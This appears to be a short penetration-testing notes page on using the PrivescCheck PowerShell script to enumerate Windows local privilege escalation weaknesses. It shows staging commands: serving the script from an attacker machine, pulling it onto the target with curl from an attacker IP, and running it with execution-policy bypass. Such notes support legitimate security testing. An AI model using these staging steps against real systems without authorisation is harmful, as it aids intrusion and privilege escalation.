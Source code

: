 # PrivescCheck

PrivescCheck is a PowerShell script that searches common privilege escalation on the target system. It provides an alternative to WinPEAS without requiring the execution of a binary file.

> _This script aims to identify **Local Privilege Escalation** (LPE) vulnerabilities that are usually due to Windows configuration issues, or bad practices. It can also gather useful information for some exploitation and post-exploitation tasks._

{% embed url="https://github.com/itm4n/PrivescCheck" %}

{% code overflow="wrap" %}
```bash
# attacker machine
wget https://raw.githubusercontent.com/itm4n/PrivescCheck/refs/heads/master/PrivescCheck.ps1

python3 -m http.server 80
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
mkdir C:\Temp
cd C:\Temp

curl http://ATT_IP/PrivescCheck.ps1 -o priv.ps1

powershell -ep bypass -c ". .\priv.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML"
```
{% endcode %}

